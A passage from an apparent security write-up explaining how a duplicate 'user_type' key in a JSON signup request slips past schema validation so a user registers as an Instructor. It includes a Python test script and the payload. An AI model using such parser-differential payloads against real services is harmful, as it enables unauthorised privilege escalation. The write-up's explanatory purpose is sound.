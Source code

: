 
Anyway, the behavior from above will help us bypass the gateway check and schema validation and register a user as a `Instructor`{:style="color:orange"}. 

To test the code locally I used the below script to try different payloads and see how both parsers behave:

```py
import jsonschema, ujson, json
from jsonschema import validate

user_signup_schema = {
    "type": "object",
    "properties": {
        "user_type": {
            "type": "string",
            "enum": ["employee"]
        },
        "username": {"type": "string"},
        "first_name": {"type": "string"},
        "last_name": {"type": "string"},
        "email": {"type": "string"},
        "password": {"type": "string"}
    },
    "required": ["user_type", "username", "password", "first_name", "last_name", "email"]
}

raw = r'{"username": "qwe4", "first_name": "qq", "last_name": "ee", "email": 
        "q4@e.com", "password": "qwe", "user_type":"employee","user_type":"instructor"}'
data = json.loads(raw) 

try:
    validate(instance=data, schema=user_signup_schema)
    print(data)   #This is how the Gateway will view my JSON
except jsonschema.exceptions.ValidationError as e:
    if data["user_type"] == "employee": 
        print("Only 'employee' can register.\n")
        print(e, "\n\n------------------------------\n\n")
    else: 
        print(e,"\n\n------------------------------\n\n")
        print("JSON schema validation failed\n")

datax = ujson.loads(raw)
print("usjon ---> ", datax['user_type'])  # This is how ujson parsed my JSON
```

I started by testing the behavior of both parsers when provided with a duplicate key `(user_type)` and it seems that both parsers will parse the last one `("user_type":"instructor")`{:style="color:orange"} and discard the first one `("user_type":"employee")`{:style="color:orange"}, and that is obvious from the output below:
```json
{
  "username": "qwe",
  "first_name": "qq",
  "last_name": "ee",
  "email": "q@e.com",
  "password": "qwe",
  "user_type":"employee",
  "user_type": "instructor"
}
```

